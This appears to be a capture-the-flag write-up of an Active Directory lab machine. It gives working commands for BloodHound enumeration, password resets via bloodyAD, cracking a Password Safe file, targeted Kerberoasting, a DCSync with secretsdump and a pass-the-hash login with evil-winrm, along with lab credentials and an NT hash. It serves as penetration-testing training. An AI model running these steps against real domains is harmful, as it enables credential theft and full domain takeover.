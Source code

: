 ```yaml
---
description: 'Username: Olivia Password: ichliebedich'
---
```


# 📦 Administrator

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

I quickly get a list of usernames:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

And the groups on the domain:

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

the creds that were given to us have winrm rights so let's connect then we launch bloodhound python:

```
bloodhound-python -u Olivia -p 'ichliebedich' -c All -d administrator.htb -ns 10.129.107.16
```

And start a bloodhound instance:

```
neo4j console
```

while launching our bloodhound collector we see a new host that we can add to hosts ->

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

and i launch bloodhound without root!!

I mark user olvia as owned and continue by looking at the node info of olivia and seeing she as First degree object control GenericAll over michael:

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

and michael has ForceChangePassword over Benjamin:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Knowing this we can install bloodyAD and abuse those rights:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

```
bloodyAD -u "olivia" -p "ichliebedich" -d "Administrator.htb" --host "10.129.107.16" set password "Michael" "Password1"
bloodyAD -u "Michael" -p "Password1" -d "Administrator.htb" --host "10.129.107.16" set password "Benjamin" "Password1"
```

I'll have to test this tool later on:

{% embed url="https://github.com/CravateRouge/autobloody" %}

Now we can confirm we have succesfully changed the password:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

So i restart my enumeration process with these credentials and end up connecting to an FTP instance with the creds of Benjamin

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

After googling the extension, i found the tool pwsafe2john and used it to get a hash out of this file:

```
pwsafe2john Backup.psafe3 > backuphash.txt
john backuphash.txt
```

Which gave me password: `tekieromucho`

Then i started to look how to open the file:

{% embed url="https://installati.one/install-passwordsafe-kalilinux/#google_vignette" %}

Then i upload the file and see 3 users:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

I'm able to see the passwords just like that:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

I quickly see which one is the path to follow:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

On bloodhound we see that emily has GenericWrite on Ethan:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

I start iff looking at some attack vectors:

{% embed url="https://www.thehacker.recipes/assets/DACL%20abuse%20mindmap.CnS4bNaY.png" %}

I try GetUserSpns but it does not work, then i find a tool from shutdown that tries to Set an SPN and abuse it for us:

{% embed url="https://github.com/ShutdownRepo/targetedKerberoast/blob/main/targetedKerberoast.py" %}

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

i had the following problem: \[!] Kerberos SessionError: KRB\_AP\_ERR\_SKEW(Clock skew too great) that happens when the time difference between your **attacking machine** and the **Domain Controller (DC)** is too large (usually more than 5 minutes). so i had to sync my time with DC:

```
sudo ntpdate -u 10.129.107.16
python targetedKerberoast.py -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "administrator.htb" --dc-ip 10.129.107.16
```

Then i put my hash in a file and crack it with john and end up with `limpbizkit`

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

We are at the last step of this box i thing and we have DCsync rights on Administrator.htb so let's have fun:

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync#dcsync" %}

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption><p>secretsdump.py -outputfile 'dcsync.txt' administrator.htb/ethan:limpbizkit@10.129.107.16</p></figcaption></figure>

I can now do passthehash to get a session:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

```
evil-winrm -i 10.129.107.16 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```
